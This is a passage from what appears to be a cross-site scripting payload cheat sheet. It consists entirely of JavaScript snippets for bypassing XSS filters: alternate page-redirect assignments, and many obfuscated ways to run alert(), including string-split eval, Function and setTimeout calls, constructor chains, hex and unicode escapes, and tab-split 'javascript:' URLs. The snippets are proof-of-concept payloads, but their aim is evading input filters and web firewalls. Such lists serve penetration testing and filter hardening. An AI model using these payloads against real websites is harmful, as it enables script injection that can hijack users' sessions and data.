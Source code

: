 Bypass using an alternate way to redirect

```javascript
location="http://google.com"
document.location = "http://google.com"
document.location.href="http://google.com"
window.location.assign("http://google.com")
window['location']['href']="http://google.com"
```

Bypass using an alternate way to execute an alert - [@brutelogic](https://twitter.com/brutelogic/status/965642032424407040)

```javascript
window['alert'](0)
parent['alert'](1)
self['alert'](2)
top['alert'](3)
this['alert'](4)
frames['alert'](5)
content['alert'](6)

[7].map(alert)
[8].find(alert)
[9].every(alert)
[10].filter(alert)
[11].findIndex(alert)
[12].forEach(alert);
```

Bypass using an alternate way to execute an alert - [@quanyang](https://twitter.com/quanyang/status/1078536601184030721)
```javascript
prompt`${document.domain}`
document.location='java\tscript:alert(1)'
document.location='java\rscript:alert(1)'
document.location='java\tscript:alert(1)'
```

Bypass using an alternate way to execute an alert - [@404death](https://twitter.com/404death/status/1011860096685502464)

```javascript
eval('ale'+'rt(0)');
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;

constructor.constructor("aler"+"t(3)")();
[].filter.constructor('ale'+'rt(4)')();

top["al"+"ert"](5);
top[8680439..toString(30)](7);
top[/al/.source+/ert/.source](8);
top['al\x65rt'](9);

open('java'+'script:ale'+'rt(11)');
location='javascript:ale'+'rt(12)';

setTimeout`alert\u0028document.domain\u0029`;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
```
